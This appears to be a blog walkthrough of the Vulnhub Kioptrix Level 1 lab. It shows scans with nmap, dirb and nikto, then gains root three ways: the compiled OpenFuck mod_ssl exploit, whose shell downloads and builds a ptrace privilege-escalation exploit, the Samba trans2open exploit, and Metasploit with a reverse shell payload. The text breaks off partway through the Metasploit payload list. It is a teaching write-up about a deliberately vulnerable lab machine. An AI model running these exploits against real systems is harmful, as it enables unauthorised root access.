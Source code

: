 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 1"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp1/
tags: vulnhub
---
```

> "Learning is not attained by chance. It must be sought for with ardor and attended with diligence." – Abigail Adams  
  
We'll be doing the first level of Vulnhub's K1optr1x series. You can download the machine here [K1optr1x: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  

![][1]  

### 0x00 Recon

<details>
  <summary>
    get vm's IP
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo arp-scan 192.168.222.0/24  
[sudo] password for imd:   
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129  
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)  
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.  
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.  
192.168.222.130 00:0c:29:2f:e1:7        VMware, Inc.  
192.168.222.254 00:50:56:e4:e3:5b       VMware, Inc.  
<br>
</pre>  
</details>  
  
Target IP Address: 192.168.222.130

### 0x01 Scanning

Let's first scan it using NMAP. If you want to know what my nmap commands are doing, go check it [here](https://nmap.org/book/man-briefoptions.html) 

<details>
  <summary>
    nmap scan
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nmap -Pn -n -vvvv -sV -p- 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-05 05:58 EST
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 05:58
Scanning 192.168.222.130 [65535 ports]
Discovered open port 22/tcp on 192.168.222.130
Discovered open port 80/tcp on 192.168.222.130
Discovered open port 139/tcp on 192.168.222.130
Discovered open port 443/tcp on 192.168.222.130
Discovered open port 111/tcp on 192.168.222.130
Discovered open port 1024/tcp on 192.168.222.130
Completed Connect Scan at 05:59, 9.91s elapsed (65535 total ports)
Initiating Service scan at 05:59
Scanning 6 services on 192.168.222.130
Completed Service scan at 05:59, 14.04s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.222.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.07s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.01s elapsed
Nmap scan report for 192.168.222.130
Host is up, received user-set (0.0016s latency).
Scanned at 2020-12-05 05:58:58 EST for 29s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack 1 (RPC #100024)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds
<br>
</pre>  
</details>  
  
There are 6 open ports and the services running under each port. Let's check each open port. port 80 is open. Opened firefox and simply browse to http://192.168.222.130  

[![][2]][2]

It's a test page, I viewed the source code and there's nothing much I can find. We can attempt to scan if there are hidden files and directories but I don't think this is the way it was built by the creator. 

<details>
  <summary>
    dirb scan
  </summary>
<pre>
<br>
<b>imd@kali:~$</b> dirb http://192.168.222.130

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 10 13:14:09 2020
URL_BASE: http://192.168.222.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.222.130/ ----
+ http://192.168.222.130/~operator (CODE:403|SIZE:273)                                                                                                               
+ http://192.168.222.130/~root (CODE:403|SIZE:269)                                                                                                                   
+ http://192.168.222.130/cgi-bin/ (CODE:403|SIZE:272)                                                                                                                
+ http://192.168.222.130/index.html (CODE:200|SIZE:2890)                                                                                                             
==> DIRECTORY: http://192.168.222.130/manual/                                                                                                                        
==> DIRECTORY: http://192.168.222.130/mrtg/                                                                                                                          
==> DIRECTORY: http://192.168.222.130/usage/                                                                                                                                                       
---- Entering directory: http://192.168.222.130/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                  
---- Entering directory: http://192.168.222.130/mrtg/ ----
+ http://192.168.222.130/mrtg/index.html (CODE:200|SIZE:17318)                                                                                                                                                    
---- Entering directory: http://192.168.222.130/usage/ ----
+ http://192.168.222.130/usage/index.html (CODE:200|SIZE:4262)      

-----------------
END_TIME: Thu Dec 10 13:14:59 2020
DOWNLOADED: 13836 - FOUND: 6
<br>
</pre> 
</details>  
  
~root and ~operator is forbidden, manual dir are just manual docs, the rest are not found or nothing interesting. Now let's dig deeper and scan the web using Nikto.  

<details>
  <summary>
    scanning phase
  </summary>
<pre>
<br>
<b>imd@kali:~$</b> nikto -h http://192.168.222.130
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.222.130
+ Target Hostname:    192.168.222.130
+ Target Port:        80
+ Start Time:         2020-12-05 06:01:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<u>+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</u>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2020-12-05 06:02:37 (GMT-5) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
<br>
</pre>
</details>  
  
Web server is apache 1.3.20 and VM is running Red Hat Linux. possible remote shell on mod_ssl 2.8.4-7. exploit-db is my preferred website searching CVEs  
[](https://www.exploit-db.com/exploits/764)

### 0x02 Method 1: Openfuck exploit

<details>
  <summary>
    searchsploit result
  </summary>
<pre>
<br>
<b>imd@kali:~$</b> searchsploit OpenFuckV2
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                          | unix/remote/47080.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<br>
</pre>  
</details>  
  
So now we know OpenFuck exploit, download it and let's follow the instruction inside the comment block. I've downloaded the updated version by typing the command `searchsploit -m 47080.c`

<details>
  <summary>
    compile openfuck
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/47080.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> mv 47080.c openfuck.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo apt-get install libssl-dev
[sudo] password for imd: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
libssl-dev is already the newest version (1.1.1g-1+0~20200421.17+debian10~1.gbpf6902f).
0 upgraded, 0 newly installed, 0 to remove and 169 not upgraded.

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o openfuck openfuck.c -lcrypto  
<br>
</pre>
</details>  
  
Run the exploit first to see the options how to use it. It requires you to input the offset, target IP, port, and number of connections. 
`Usage: ./openfuck target box [port] [-c N]`  

<details>
  <summary>
    openfuck result
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck 0x6b 192.168.222.130 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f82e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--14:57:47--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.66 KB/s

14:57:54 (1.66 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 7914
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
<p style="color:#05c820">
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
</p>
<br>
</pre>
</details>

There we have it, root access! You can go further changing the root password or create another user with root privileges for maintaning access but is not necessary since we already have root. Challenge complete.. Congrats!

<details>
  <summary>
    root access
  </summary>
<pre>
<br>
passwd root
New password: root
BAD PASSWORD: it is too short
Retype new password: root
Changing password for user root
passwd: all authentication tokens updated successfully
<br>
</pre>
</details>  
  
![][3]

### 0x03 Method 2: Samba exploit

Earlier we saw port 139 (Samba) is open. Let's scan what version it is and search for a possible exploit

<details>
  <summary>
    samba scan
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nbtscan 192.168.222.130
Doing NBT name scan for addresses from 192.168.222.130

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.222.130  KIOPTRIX         <server>  KIOPTRIX         00:00:00:00:00:00

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> enum4linux -a 192.168.222.130
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 10 16:12:25 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.222.130
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on 192.168.222.130    |
 ======================================================= 
[+] Got domain/workgroup name: MYGROUP

 =============================================== 
|    Nbtstat Information for 192.168.222.130    |
 =============================================== 
Looking up status of 192.168.222.130
        KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
        KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
        KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        MYGROUP         <1d> -         B <ACTIVE>  Master Browser
        MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================== 
|    Session Check on 192.168.222.130    |
 ======================================== 
[+] Server 192.168.222.130 allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for 192.168.222.130    |
 ============================================== 
Domain Name: MYGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================= 
|    OS information on 192.168.222.130    |
 ========================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.222.130 from smbclient: 
[+] Got OS info for 192.168.222.130 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03

 ================================ 
|    Users on 192.168.222.130    |
 ================================ 
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

 ============================================ 
|    Share Enumeration on 192.168.222.130    |
 ============================================ 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

[+] Attempting to map shares on 192.168.222.130
//192.168.222.130/IPC$  [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//192.168.222.130/ADMIN$        [E] Can't understand response:
tree connect failed: NT_STATUS_WRONG_PASSWORD

 ======================================================= 
|    Password Policy Information for 192.168.222.130    |
 ======================================================= 
[E] Unexpected error from polenum:


[+] Attaching to 192.168.222.130 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: SMB SessionError: 0x5

[+] Trying protocol 445/SMB...

        [!] Protocol failed: [Errno Connection error (192.168.222.130:445)] [Errno 111] Connection refused


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================= 
|    Groups on 192.168.222.130    |
 ================================= 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Account Operators] rid:[0x224]
group:[System Operators] rid:[0x225]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]

[+] Getting builtin group memberships:
Group 'Power Users' (RID: 547) has member: Couldn't find group Power Users
Group 'Users' (RID: 545) has member: Couldn't find group Users
Group 'Backup Operators' (RID: 551) has member: Couldn't find group Backup Operators
Group 'Print Operators' (RID: 550) has member: Couldn't find group Print Operators
Group 'Guests' (RID: 546) has member: Couldn't find group Guests
Group 'System Operators' (RID: 549) has member: Couldn't find group System Operators
Group 'Administrators' (RID: 544) has member: Couldn't find group Administrators
Group 'Replicator' (RID: 552) has member: Couldn't find group Replicator
Group 'Account Operators' (RID: 548) has member: Couldn't find group Account Operators

[+] Getting local groups:
group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users

<b>imd@kali:~$</b> nmap --script smb-enum-shares -p 139 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-11 04:14 EST
Nmap scan report for 192.168.222.130
Host is up (0.00091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

<b>imd@kali:~$</b> smbmap -H 192.168.222.130 -P 139
[+] Guest session   .   IP: 192.168.222.130:139 Name: 192.168.222.130 

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> smbclient -L 192.168.222.130
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\imd's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX
<br>
</pre>
</details>  

Note: if you got an error `[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.` add this line on /etc/samba/smb.conf under [global] `client min protocol = CORE` it should look like this  

<details>
  <summary>
    smb.conf
  </summary>

```

#======================= Global Settings =======================

[global]

client min protocol = CORE


## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP      

```
</details>

Okay. We still can't figure out what is the samba version. Let's try other tools of the trade.
<details>
  <summary>
    smbver.sh
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./smbver.sh 192.168.222.130 139
192.168.222.130: 
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b>
<br>
</pre>
</details>

We tried to use [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but nothing happened. Opened up wireshark and after capturing the packets, run the script and now we see **Samba 2.2.1a**

[![][4]][4]

Credits: [https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

<details>
  <summary>
    root access
  </summary>
<pre>
<br>
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit samba 2.2.1
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                        | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                   | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/10.c


<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o samba 10.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba 
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba -b 0 192.168.222.130
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
<p style="color:#05c820">
uid=0(root) gid=0(root) groups=99(nobody)

whoami
root
</p>
<br>
</pre>
</details>

Searched for the exploit, download, compile, run. We're now root!

### 0x04 Method 3: Metasploit

<details>
  <summary>
    metasploit search
  </summary>
<pre>
<br>
<b>imd@kali:~$</b> msfconsole

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

[*] Starting persistent handler(s)...
<b>msf5 ></b> search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   1   auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   2   auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations
<br>
</pre>
</details>

Search for the exploit. Interact with a module by name or index, `use 15` or `use exploit/linux/samba/trans2open`

<details>
  <summary>
    root access
  </summary>
<pre>
<br>
<b>msf5 ></b> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> set RHOSTS 192.168.222.130
RHOSTS => 192.168.222.130
<b>msf5 exploit(linux/samba/trans2open) ></b> set LHOSTS 192.168.222.129
LHOSTS => 192.168.222.129
<b>msf5 exploit(linux/samba/trans2open) ></b> set RPORT 139
RPORT => 139
<b>msf5 exploit(linux/samba/trans2open) ></b> show payload
[-] Invalid parameter "payload", use "show -h" for more information
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads

Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ----                                      ---------------  ----    -----  -----------
   0   generic/custom                                             manual  No     Custom Payload
   1   generic/debug_trap                                         manual  No     Generic x86 Debug Trap
   2   generic/shell_bind_tcp                                     manual  No     Generic Command Shell, Bind TCP Inline
   3   generic/shell_reverse_tcp                                  manual  No     Generic Command Shell, Reverse TCP Inline
   4   generic/tight_loop                                         manual  No     Generic x86 Tight Loop
   5   linux/x86/adduser                                          manual  No     Linux Add User
   6   linux/x86/chmod                                            manual  No     Linux Chmod
   7   linux/x86/exec                                             manual  No     Linux Execute Command
   8   linux/x86/meterpreter/bind_ipv6_tcp                        manual  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
